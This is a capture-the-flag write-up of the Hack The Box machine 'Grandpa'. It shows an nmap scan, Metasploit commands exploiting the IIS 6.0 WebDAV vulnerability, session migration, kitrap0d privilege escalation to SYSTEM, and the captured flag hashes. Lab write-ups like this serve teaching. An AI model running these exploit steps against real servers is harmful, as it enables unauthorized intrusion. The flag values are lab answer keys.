 # Grandpa

## IP

> 10.10.10.14
## nmap Scan

```
nmap -T4 -A 10.10.10.14 -Pn
```

```a
Nmap scan report for 10.10.10.14
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Wed, 04 Aug 2021 04:18:02 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows XP SP2 or SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   71.66 ms  10.10.16.1
2   106.62 ms 10.10.10.14
```

## Open Ports
       
>80/tcp open  http    Microsoft IIS httpd 6.0

HTTP

## HTTP

http://10.10.10.14/

The server is using " Microsoft IIS httpd 6.0" so I searched online for exploits and found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/)

I followed the steps and I we got a meterpreter shell! But I cannot do anything, a lot of access denied :(

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.14
set lhost tun0
```

I also tried using the suggester and all the options got access denied

> [+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

The problem was that we were in a folder with no System Access

Locating a better folder

```ps```

![Image](https://github.com/MiguelCaputo/CTFs-writeups/blob/main/Hack%20The%20Box/Grandpa/Pasted%20image%2020210804003440.png)

We need to migrate to a session with Network Service

```migrate 1828```

```getuid```

>Server username: NT AUTHORITY\NETWORK SERVICE

Now we are an user on the machine, but still not System.... Lets try the suggester again 

```
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

We are System!!!

### Finding user.txt

```
cd c:\\"Documents and Settings"\\Harry\\Desktop
cat user.txt
```

> bdff5ec67c3cff017f2bedc146a5d869

### Finding root.txt

```
cd c:\\"Documents and Settings"\\Administrator\\Desktop
cat root.txt
```

> 9359e905a2c35f861f6a57cecf28bb7b
